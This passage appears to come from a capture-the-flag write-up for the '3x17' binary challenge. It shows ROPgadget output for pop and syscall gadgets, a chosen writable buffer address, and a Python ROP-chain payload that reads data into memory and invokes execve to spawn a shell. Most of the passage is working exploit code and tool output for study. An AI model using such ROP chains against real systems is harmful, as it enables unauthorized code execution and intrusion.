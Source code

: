 ```bash
$ ROPgadget --binary 3x17 > gadget

$ cat gadget | grep ret | grep ": pop "
0x000000000041e4af : pop rax ; ret
...
0x0000000000401696 : pop rdi ; ret
...
0x0000000000446e35 : pop rdx ; ret
...
0x0000000000406c30 : pop rsi ; ret
...

$ cat gadget | grep ": syscall"
0x00000000004022b4 : syscall
```

That's enough for us. Let's get the address where we can write using gdb:

![vmmap.png](images/vmmap.png)

So let's take `0x000000004b4a00` as a buffer. Our payload will be:

```python
pop_rax = 0x000000000041e4af
pop_rdi = 0x0000000000401696
pop_rdx = 0x0000000000446e35
pop_rsi = 0x0000000000406c30
syscall = 0x00000000004022b4
rw_section = 0x000000004b4a00
read_addr = 0x446e20
payload = flat(
    pop_rdi, 0,
    pop_rsi, rw_section,
    pop_rdx, 8,
    read_addr,
    pop_rax, 0x3b,
    pop_rdi, rw_section,
    pop_rsi, 0,
    pop_rdx, 0,
    syscall
    )
```
